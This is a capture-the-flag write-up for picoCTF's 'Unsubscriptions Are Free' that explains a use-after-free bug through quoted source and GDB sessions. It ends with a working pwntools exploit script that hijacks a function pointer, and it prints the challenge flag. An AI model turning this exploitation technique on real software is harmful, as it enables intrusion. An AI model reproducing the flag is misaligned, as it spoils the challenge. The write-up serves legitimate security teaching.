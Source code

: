 # Unsubscriptions Are Free
## Description
Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](vuln) and get a flag. [source](vuln.c) `nc mercury.picoctf.net 48259`
## Hints
1. [http://homes.sice.indiana.edu/yh33/Teaching/I433-2016/lec13-HeapAttacks.pdf](http://homes.sice.indiana.edu/yh33/Teaching/I433-2016/lec13-HeapAttacks.pdf)
## Solution
Connect to the server and check out what's running.
```console
% nc mercury.picoctf.net 48259
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
e
```
Ok, let's look at the source. There are a couple points of interest right up front: function `hahaexploitgobrrr` reveals the flag and function `s` leaks its address.
```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```
```console
% nc mercury.picoctf.net 48259
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
s
OOP! Memory leak...0x80487d6
Thanks for subsribing! I really recommend becoming a premium member!
```
Ok, so we know where to get the flag (`0x80487d6`), but how do we get there? Function `i` frees the memory pointed to by `cmd *user`, but the program doesn't exit at that point and it continues to use the pointer.
```c
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}

int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```
It's a use-after-free scenario! We can exploit it through the layout of the `cmd` structure and the `doProcess` function.
```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}
```
If we write the address of `hahaexploitgobrr` to the `whatToDo` member, we'll be able to execute it. But how? First, delete the account with option `i`, then submit `0x80487d6` as a message with option `l`, calling the `leaveMessage` function.
```c
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```
Why does this work? Because when a new chunk of memory is allocated with `leaveMessage`, it'll point to the same chunk of memory pointed to by `user`, so long as we execute the correct order of operations outlined previously. We can confirm this in GDB.
```console
% gdb -q vuln
(gdb) b *(main+93)
Breakpoint 1 at 0x8048d92
(gdb) b *(leaveMessage+64)
Breakpoint 2 at 0x8048a61
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/ryan/ctf/vuln 
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
i

Breakpoint 1, 0x08048d92 in main ()
(gdb) info addr user
Symbol "user" is at 0x804b060 in a file compiled without debugging.
(gdb) x/x 0x804b060
0x804b060 <user>:       0x0804c1a0
(gdb) x/x *0x804b060
0x804c1a0:      0x08048a7f
(gdb) info addr i
Symbol "i" is at 0x8048a7f in a file compiled without debugging.
```
We put a breakpoint in `main` at the call to `doProcess` and another in `leaveMessage` after the call to `malloc`. We chose option `i` and we see that `user` points to `0x804c1a0`. The address of `i` is stored at that address. Let's continue.
```console
(gdb) c
Continuing.
You're leaving already(Y/N)?
y
Bye!
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
l
I only read premium member messages but you can 
try anyways:

Breakpoint 2, 0x08048a61 in leaveMessage ()
(gdb) p/x $eax
$1 = 0x804c1a0
(gdb) x/x 0x804b060
0x804b060 <user>:       0x0804c1a0
```
We hit the breakpoint in `leaveMessage` and the address returned from `malloc` matches the address pointed to by `user`.
```console
(gdb) c
Continuing.
hello

Breakpoint 1, 0x08048d92 in main ()
(gdb) x/x 0x804c1a0
0x804c1a0:      0x6c6c6568
(gdb) x/s 0x804c1a0
0x804c1a0:      "hello\n"
(gdb) x/s *0x804b060
0x804c1a0:      "hello\n"
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x6c6c6568 in ?? ()
```
That's our confirmation. Let's put it in action.
```python
from pwn import *

server = remote("mercury.picoctf.net", 48259)

# delete the account
server.recvuntil(b'(e)xit\n')
server.sendline(b'i')
server.recvline()
server.sendline(b'y')

# inject the address for hahaexploitgobrrr
server.recvuntil(b'(e)xit\n')
server.sendline(b'l')
server.recvuntil(b'try anyways:\n')
payload = p32(0x080487d6)
server.sendline(payload)

print("Flag: " + server.recvline().decode())
```
```console
% python exploit.py
[+] Opening connection to mercury.picoctf.net on port 48259: Done
Flag: picoCTF{d0ubl3_j30p4rdy_cff1f12d}

[*] Closed connection to mercury.picoctf.net port 48259
```
